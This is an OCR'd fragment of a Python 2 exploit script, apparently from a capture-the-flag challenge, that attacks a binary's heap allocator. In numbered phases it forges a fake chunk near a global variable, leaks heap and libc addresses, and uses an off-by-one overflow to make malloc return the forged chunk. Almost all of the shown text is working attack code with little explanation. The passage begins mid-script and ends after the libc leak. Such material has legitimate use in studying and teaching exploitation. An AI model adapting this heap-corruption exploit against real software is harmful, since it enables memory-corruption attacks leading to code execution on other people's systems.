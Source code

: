 ```python

    print p.recvall()
    p.close()
    sys.exit(0)

### PHASE 1 - CRAFT FAKE CHUNCK ###

master_k = 0x06020A0

fake_chunk_addr = master_k -8
fake_chunk_from_size = p64(0) + p64(fake_chunk_addr) + p64(fake_chunk_addr)

change_key(fake_chunk_from_size)

print " >> fake chunck addr: " + hex(fake_chunk_addr)

### PHASE 2 - HEAP LEAK ###

create(2,24)
create(3,248, val="BBB")
create(4,24)
delete(2)
delete(4)
create(4,24, val="")

heap_leak = "\x20" + print_one(4)[1:8]
first_addr = u64(heap_leak)
print " >> first addr: " + hex(first_addr)

second_addr = first_addr + 32

### PHASE 3 - PREPARE FAKE CHUNCK ###

create(2,24, val="AAAA")

create(7,0, val="") #clear fake_chunk[0]

### PHASE 4 - OFF BY ONE OVERFLOW ###

off = fake_chunk_addr - (second_addr -16)
print " >>> new prev_size: " + hex(-off)
edit(2,"a"*16+p64(-off))

delete(3) #trigger

### PHASE 5 - MALLOC RETURN FAKE_CHUNK + 16 ###

fake_chunk_from_size = p64(0x100) + p64(fake_chunk_addr) + p64(fake_chunk_addr)
change_key(fake_chunk_from_size)

create(3, 248 , val="")

forged = fake_chunk_addr + 16 #now 3 is master_k+8

### PHASE 5 - LIBC LEAK FROM ARENA ###

libc_leak = print_one(3)[:8]
libc_addr = u64(libc_leak) - 0x3c4b0a
print " >> libc addr: " + hex(libc_addr)

ptr_2 = 0x00602068 + (2+0xa)*8
print " >> ptr secret 2: " + hex(ptr_2)

```